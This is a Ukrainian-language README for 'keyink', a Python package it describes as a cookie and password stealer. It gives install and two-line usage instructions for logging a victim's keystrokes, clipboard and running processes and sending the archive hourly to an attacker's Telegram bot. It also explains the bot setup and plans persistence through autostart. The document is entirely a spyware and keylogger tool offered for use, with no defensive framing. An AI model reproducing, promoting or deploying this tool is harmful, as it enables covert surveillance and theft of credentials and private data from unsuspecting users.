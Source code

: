 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

Стіллер кукі та паролей з відправкою в Telegram всього лише в 2 рядки.

## Опис
`keyink` в даний момент тільки починає свій розвиток. У майбутньому його функціонал буде розширено.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Майбутні можливості](#Майбутні-можливості)
* [Установка](#Установка)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
* [Налаштування Telegram бота](#Налаштування-Telegram-бота)
  * [Отримання токена](#Отримання-токена)
  * [Отримання айді](#Отримання-айді)

### Поточні можливості
1. Логування клавіатури, буфера обміну, запущених процесів.
2. Відправлення зібраних даних архівом в Telegram.
3. Виконання в окремому потоці.

### Майбутні можливості
1. Додавання інших логерів.
2. Додавання в автозавантаження системи.
 
## Установка

Встановити останню версію можна командою:
```
pip install keyink==0.0.1
```

## Приклад використання
### Стандартний
```python
from keyink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
Стандартний ```Logger``` запускає всі доступні логгери і відправляє зібрані дані архівом вам в Telegram щогодини.

Передані параметри:
* `token` - токен Telegram бота.
* `user_id` - ваш айді Telegram.
* `keyboard` - додати логер клавіатури (True/False).
* `clipboard` - додати логер буфера обміну (True/False).
* `processes` - додати логер процесів (True/False).
* `special_keys` - додавати в логи спец клавіші Enter, Shift, Alt і тд (True/False).
* `pause_iteration` - частота перевірки запущених процесів в секундах.
* `sleep` - частота відправки зібраних логів в секундах.

## Налаштування Telegram бота
### Отримання токена
1. Відкриваємо чат з [BotFather](https://t.me/botfather).
2. Прописуємо команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописуємо назву бота, далі нік з прикладкою ```_bot``` в кінці.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Отриманий токен вставляємо в поле ```"YOUR_TOKEN"``` в скрипті.

### Отримання айді
1. Відкриваємо чат з [Get My ID](https://t.me/getmyid_bot).
2. Прописуємо команду ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Отриманий айді вставляємо в поле ```YOUR_ID``` в скрипті.
